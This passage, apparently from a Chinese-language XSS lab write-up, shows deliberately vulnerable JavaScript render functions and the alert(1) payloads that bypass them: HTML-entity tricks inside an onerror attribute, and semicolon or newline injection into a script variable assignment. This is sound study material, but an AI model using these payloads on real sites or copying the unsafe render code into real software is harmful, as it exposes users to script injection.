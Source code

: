 ```
[html]
<img src onerror="console.error('&#39;);alert(1)&#x2f;&#x2f;')">

[server code]
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f;')
  }
  return `<img src onerror="console.error('${escapeHtml(input)}')">`
}
```





## 0x10——分号提前结束赋值语句或换行绕过变量赋值的绕过

```
2
alert(1)

2;alert(1)
```

![image-20220116115256691](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116115256691.png)

```
[html]
<script>
  window.data = 2;alert(1)
</script>

script>
  window.data = 2
alert(1)
</script>

[server code]
function render (input) {
  return `
<script>
  window.data = ${input}
</script>
  `
}
```
